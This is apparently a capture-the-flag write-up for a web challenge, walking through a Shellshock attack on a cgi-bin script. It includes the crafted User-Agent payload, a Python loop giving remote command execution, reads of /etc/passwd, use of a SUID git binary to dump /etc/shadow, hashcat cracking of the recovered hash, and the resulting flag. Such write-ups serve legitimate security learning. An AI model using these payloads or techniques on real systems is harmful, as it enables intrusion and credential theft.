

# Status Page

by makider :P

## The Challenge



## The Solution

As i didn't have my pc i had to finish this challenge from my phone using termux, but now i'll reconstruct my tought process with photos from my pc

We are given a https webpage https://stt.uctf.ir/ that automatically reloads itself

looking at the source code 

```html
<!DOCTYPE html>
<html lang="en">

<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Server Status</title>

<link rel="stylesheet" href="[styles/main.css](https://stt.uctf.ir/styles/main.css)">
</head>

<body>
<div id="container">
<h1>Server Status</h1>
<iframe id="uptime-iframe" src="[/cgi-bin/uptime.sh](https://stt.uctf.ir/cgi-bin/uptime.sh)">
</iframe>
</div>

<script>
const styleLink = document.createElement('link');
styleLink.href = '/styles/base.css';
styleLink.rel = "stylesheet";

const frameEls = document.getElementsByTagName('iframe');
for (let i = 0; i < frameEls.length; i++) {
const frameEl = frameEls[i];
frameEl.addEventListener('load', () => {
frameEl.contentDocument.head.appendChild(styleLink);

setTimeout(() => {
frameEl.contentWindow.location.reload();
}, 5000);
});
}
</script>
</body>

</html>
```

we can see that https://stt.uctf.ir/cgi-bin/uptime.sh is being included in the main page with a iframe.

now the first thing that came to my mind is try shellshock as it is probably the most popular exploit for folder cgi-bin

here's an in depth explanation of the exploit
https://securityintelligence.com/articles/shellshock-vulnerability-in-depth/

luckily it worked first attempt


**request
```
GET /cgi-bin/uptime.sh HTTP/2
Host: stt.uctf.ir
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: () { : ; }; echo; echo; /usr/bin/id
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Content-Length: 0
```


**response

```
HTTP/2 200 OK
Date: Mon, 04 Sep 2023 20:54:12 GMT
X-Xss-Protection: 1; mode=block
Server: ArvanCloud
X-Sid: 4103
Server-Timing: total;dur=174
X-Cache: BYPASS
X-Request-Id: 6bdb55363dfc11ba01860b3a1e357bc3


uid=65534(nobody) gid=65534(nobody)
```

now as i was with my phone and not on my pc i had to do it with curl (very painful)

so i wrote a mini script

```python
import requests as r

while True:
  a = input("sh$ ")
  headers = {"User-Agent":"() {{ :; }}; echo; echo; /bin/busybox {} 2>&1".format(a)}
  out = r.get("https://stt.uctf.ir/cgi-bin/uptime.sh", headers=headers, verify=False)
  print(out.text)
```

now i had rce in the system

i tried to get a reverse shell but apparently the backend wasn't connected to the internet

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
```

so i got the /proc/self/cgroup file 

`0::/../../NSJAIL.15703`

apparently the server was using nsjail

but it wasnt vulnerable to anything

i also got processes and etc passwd

```bash
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
haproxy:x:100:101:haproxy:/var/lib/haproxy:/bin/false
m4d0k4:x:1000:1000:Madoka Kaname:/home/m4d0k4:/bin/ash
```

```

PID   USER     TIME  COMMAND
    1 nobody    0:00 /opt/bash/bin/bash /var/www/cgi-bin/uptime.sh
    2 nobody    0:00 /bin/ps aux /proc/self/cgroup

```


the challenge description says that we must get madoka password

so i tought of /etc/shadow

`-rw-r-----    1 root     nobody         512 Sep  2 20:04 /etc/shadow
`

but i couldn't read it 

so i continued my enumeration scanning for files owned by root or madoka user

but nothing

until i tought of fuzzing for SUID 

`find / -perm -4000`

at this point i did a terrible typo

and lost a bit of time

but at the end i was able to discover that the binary /usr/bin/git had the suid bit set 

this grants us full read access on system and potentially root

as i only had rce i choose to just get the /etc/shadow file

````
git diff /dev/null /etc/shadow
````

```
root:*::0::::: 
bin:!::0::::: 
daemon:!::0::::: 
adm:!::0::::: 
lp:!::0::::: 
sync:!::0::::: 
shutdown:!::0::::: 
halt:!::0::::: 
mail:!::0::::: 
news:!::0::::: 
uucp:!::0::::: 
operator:!::0::::: 
man:!::0::::: 
postmaster:!::0::::: 
cron:!::0::::: 
ftp:!::0::::: 
sshd:!::0::::: 
at:!::0::::: 
squid:!::0::::: 
xfs:!::0::::: 
games:!::0::::: 
cyrus:!::0:::::
vpopmail:!::0::::: 
ntp:!::0::::: 
smmsp:!::0::::: 
guest:!::0::::: 
nobody:!::0::::: 
haproxy:!:19591:0:99999:7::: m4d0k4:$1$.BvSIAvP$opyELmUUXoM8kQ5M31tcz/:19602:0:99999:7:::
```


returned this

now i just had to crack the pass with rockyou.txt

```bash
$1$.BvSIAvP$opyELmUUXoM8kQ5M31tcz/:kaznyannyan4

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$.BvSIAvP$opyELmUUXoM8kQ5M31tcz/
Time.Started.....: Mon Sep 04 23:09:55 2023 (20 secs)
Time.Estimated...: Mon Sep 04 23:10:15 2023 (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   326.5 kH/s (18.41ms) @ Accel:16 Loops:1000 Thr:256 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 6726710/14344384 (46.89%)
Rejected.........: 107574/6726710 (1.60%)
Restore.Point....: 6659808/14344384 (46.43%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1000
Candidate.Engine.: Device Generator
Candidates.#1....: keeper4e -> karengiselle
Hardware.Mon.#1..: Temp: 53c Fan:  0% Util: 40% Core:1659MHz Mem:2134MHz Bus:8

Started: Mon Sep 04 23:09:47 2023
Stopped: Mon Sep 04 23:10:16 2023
```

## The Flag

`uctf{kaznyannyan4}`
